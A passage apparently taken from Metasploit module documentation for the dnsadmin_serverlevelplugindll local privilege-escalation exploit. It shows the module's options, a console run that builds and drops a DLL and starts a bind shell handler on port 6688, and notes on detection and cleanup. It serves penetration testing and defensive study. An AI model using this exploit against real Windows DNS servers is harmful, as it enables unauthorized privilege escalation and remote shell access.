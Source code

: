 ```
   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LPORT     6688             yes       The listen port
   RHOST     172.17.169.123   no        The target address


Exploit target:

   Id  Name
   --  ----
   0   Automatic


msf exploit(windows/local/dnsadmin_serverlevelplugindll) > exploit

[*] Building DLL...
[+] mp4.dll stored at /home/gwillcox/.msf4/local/mp4.dll
[*] Started bind TCP handler against 172.17.169.123:6688
[*] Exploit completed, but no session was created.
msf exploit(windows/local/dnsadmin_serverlevelplugindll) >
```

## Notes
1. This module is not particularly opsec-safe as it drops a DLL to disk, writes to
the registry, and is sure to generate a ton of event logs when the DNS service is
stopped and restarted..
2. Automatic cleanup of the dropped DLL is attempted if the DLL has been written to
disk, but if automatic cleanup fails manual cleanup may be necessary.
